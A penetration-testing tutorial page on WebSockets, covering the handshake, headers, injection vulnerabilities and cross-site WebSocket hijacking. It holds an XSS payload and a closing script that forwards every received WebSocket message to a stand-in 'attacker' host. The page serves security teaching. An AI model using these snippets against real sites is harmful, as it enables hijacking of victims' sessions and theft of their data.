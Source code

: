 ```yaml
---
title: "WebSockets"
weight: 28
description: "Learn about WebSockets penetration testing, including connection establishment, vulnerabilities like XSS and SQLi, and cross-site WebSocket hijacking."
---
```


# WebSockets

WebSocket connections are long-lived HTTP initiations allowing bidirectional messaging. The connection stays open until a message is sent by the client or server. WebSocket is ideal for low-latency and server-triggered messages, such as real-time financial data feeds.

{{< details summary="How are WebSocket connections established?" >}}

WebSocket connections are normally created using client-side JavaScript like the following:

```javascript
var ws = new WebSocket("wss://normal-website.com/chat");
```

The `wss` protocol establishes a WebSocket over an encrypted TLS connection, while the `ws` protocol uses an unencrypted connection.

To establish the connection, the browser and server perform a WebSocket handshake via HTTP. The browser sends a WebSocket handshake request like this:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

{{< /details >}}

{{< details summary="Headers" >}}

<summary>Headers</summary>

* The `Connection` and `Upgrade` headers in the request and response indicate that this is a WebSocket handshake.

- The `Sec-WebSocket-Version` request header specifies the WebSocket protocol version that the client wishes to use. This is typically 13.

* The `Sec-WebSocket-Key` request header contains a Base64-encoded random value, which should be randomly generated in each handshake request. This is use to prevent errors from caching proxies. (It is not like CSRF token...)

- The `Sec-WebSocket-Accept` response header contains a hash of the value submitted in the Sec-WebSocket-Key request header, concatenated with a specific string defined in the protocol specification. This is done to prevent misleading responses resulting from misconfigured servers or caching proxies.

{{< /details >}}

{{< details summary="What do WebSocket messages look like?" >}}

WebSocket messages can contain any content or data format

```javascript
ws.send("Peter Wiener");
```

It is common to use json

```json
{"user":"Hal Pline","content":"Hello"}
```

{{< /details >}}

## Manipulating WebSocket connections

[https://portswigger.net/web-security/websockets#manipulating-websocket-connections](https://portswigger.net/web-security/websockets#manipulating-websocket-connections)

## WebSockets vulnerabilities

* If inputs are transmitted and processed server-side
  * Server-side attacks (SQLi, XXE, etc.)
* If attacker-controlled data is transmitted via WebSockets to other application users
  * Client-side attacks (XSS, etc.)
    * Example if the content of a message is transmitted to another user (via chat...)
    * `{"message":"<img src=1 onerror='alert(1)'>"}`
* Also blind vulnerabilities

## Cross-site WebSocket hijacking

An attacker can craft a malicious webpage on their domain, initiating a cross-site WebSocket connection to the susceptible application. (As CSRF, the websocket connection mustn't contain CSRF tokens)

* Perform unauthorized actions masquerading as the victim user (like CSRF)
* Retrieve sensitive data that the user can access.
* Waiting for incoming messages to arrive containing sensitive data.

Exploitation code to open a websocket connection to send messages on your server

```html
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://attacker', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

